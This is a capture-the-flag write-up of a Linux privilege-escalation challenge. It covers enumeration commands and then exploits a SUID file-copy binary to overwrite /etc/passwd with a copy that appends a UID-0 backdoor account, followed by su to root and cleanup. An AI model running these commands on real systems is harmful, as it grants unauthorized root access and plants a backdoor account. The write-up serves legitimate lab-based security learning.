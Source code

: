 # Linux PrivEsc

This challenge is located in *Ostrich Saloon* on the *Island of Misfit Toys*. Speak to *Rose Mold* to start the challenge.

## Challenge Prompt

Once we open the terminal, we are greeted with the challenge prompt.

![Figure 1: Linux PrivEsc Challenge Prompt](/img/privesc-prompt.png)

We are currently running in the context of a standard non-privileged user account. Our goal is to elevate permissions to a super-user level and run an executable in the `/root` directory to complete the challenge. 

Before looking for privilege escalation vectors, we should perform some basic situational awareness checks.

```bash
id
hostname
pwd
ls -al
cat /etc/passwd
uname -a
```

![Figure 2: Gathering Basic Information](/img/privesc-basic.png)

## Enumeration

It is time to begin enumerating the file system for privilege escalation vectors. Typically, I search for the following low-hanging fruit privilege escalation opportunities first when evaluating a Linux target:
* `sudo`-abusable packages
* Plaintext credentials stored in environment variables or commnad history transcripts
* Abusable cron jobs
* Binaries with the SUID or the SGID bit set 

### Sudo Abuse

The first privilege escalation we check for is what commands we may run with `sudo`.

```bash
sudo -l
```

![Figure 3: Checking for `sudo` Abuse Vectors](/img/privesc-sudo.png)

It appears that the `sudo` package is not installed, so we will move on to other privilege escalation techniques.

### Environment Variables

Check for any sensitive information hardcoded as environment variables with `env`.

```bash
env
```

![Figure 4: Checking for Credentials Hardcoded as Credentials](/img/privesc-env.png)

None of the environment variables appear to be representing credentials.

### Cron Job Abuse

Check what cron jobs are running on the target. Cron job scripts are stored in subdirectories of the `/etc/` directory named after their running cadence (e.g. `cron.daily` for daily scripts, `cron.weekly` for weekly scripts, etc).

```bash
ls -alh /etc/cron*
```

![Figure 5: Checking for Abusable Cron Jobs](/img/privesc-cron.png)

The `apt-compat` and `dpkg` cron jobs are default jobs in Linux and not exploitable, so we can move on.

### SUID and SGID Marked Binaries

Attempt to check for binaries that have been assigned the SUID or SGID bit.

```bash
find / -perm -u=s -type f 2>/dev/null

find / -perm -g=s -type f 2>/dev/null
```

![Figure 6: Checking for Binaries with the SUID or SGID Bits Enabled](/img/privesc-suid-sgid.png)


The binary `/usr/bin/simplecopy` stands out to me. Check its `--help` menu.

```bash
simplecopy --help
```

![Figure 7: Checking the Help Menu of `/usr/bin/simplecopy`](/img/privesc-help.png)

The utility seems to copy an item to a destination. 

If we can overwrite files with the `simplecopy` binary, then we may be able to escalate privileges by overwriting the contents of `/etc/passwd`. Validate that we can overwrite files by creating two test files and using the `simplecopy` utility on them.

```bash
echo 'test 1' > test1.txt
echo 'test 2' > test2.txt
simplecopy test2.txt test1.txt 
cat test1.txt 
```

![Figure 8: Testing out the `simplecopy` Binary](/img/privesc-test.png)

The overwrite seems to work. 

## Exploitation

This will be our attack methodology:
* We will generate a DESCrypt hash of a known plaintext that we will use as our backdoor account's password.
* We will make a copy of `/etc/passwd` and apppend a line to our copy creating a new *root* account using our hash as its password.
* We will use `simplecopy` to overwrite the contents of `/etc/passwd` with our malicious copy, then login to the backdoor account.
* With our attack concluded, we should revert our changes.

On my personal instance of Kali Linux, I used the `mkpasswd` utility to generate a DESCrypt hash, which is a supported hash algorithm by `/etc/passwd`. If this were a real engagement, we should use a strong password, since creating a backdoor account with a very weak password would introduce another critical vulnerability to the system. For this challenge however, I generated a hash for the password *yougotpwnedithappens*.

```bash
echo 'yougotpwnedithappens' | mkpasswd -m descrypt -s
```

![Figure 9: Generating a Password Hash with `mkpasswd`](/img/privesc-mkpasswd.png)

Back on the target machine, create a backup of `/etc/passwd` in case we need to roll back our changes.

```bash
cat /etc/passwd > /tmp/passwd.bak
```

![Figure 10: Creating a Backup of `/etc/passwd`](/img/privesc-backup.png)

Continue with the attack by create a writeable copy of `/etc/passwd`, append the new line to `/etc/passwd` that adds a new superuser with our generated password, and validate its contents.

```bash
cat /etc/passwd > /tmp/passwd
echo 'root2:J68/tUveONM2s:0:0:root:/root:/bin/bash' >> /tmp/passwd
cat /etc/passwd
```

![Figure 11: Creating a Malicious Copy of `/etc/passwd`](/img/privesc-malicious-passwd.png)

With our malicious `/etc/passwd` file prepared, we can now overwrite the contents of `/etc/passwd`.

```bash
simplecopy /tmp/passwd /etc/passwd
```

![Figure 12: Overwriting the Contents of `/etc/passwd`](/imig/privesc-overwrite.png)

Now when we attempt to authenticate as *root2*, we should enter a shell running in the context of *root*.

```bash
su root2 - # Enter our password via STDIN
```

![Figure 13: Opening a New Session as *root2*](/img/privesc-exploited.png)

We are now running in a shell as *root*. Move to the directory `/root` and run the binary to complete the lab. The answer to the question is "santa", of course!

```bash
cd /root
ls -al
./runmetoanswer 
```

![Figure 14: Running the `runmetoanswer` Binary](/img/privesc-runmetoanswer.png)

Finally, we should exit the *root* shell and replace the current contents of `/etc/passwd` with the `/tmp/passwd.bak` backup file we created earlier. This ensures that we left the target machine the way we left it at the beginning of the engagement. We could also consider patching the vulnerability, but that might result in unintended broken functionality, so we will leave the binary alone for now.

```bash
exit
simplecopy /tmp/passwd.bak /etc/passwd
cat /etc/passwd
```

![Figure 15: House Cleaning Operations](/img/privesc-house-cleaning.png)
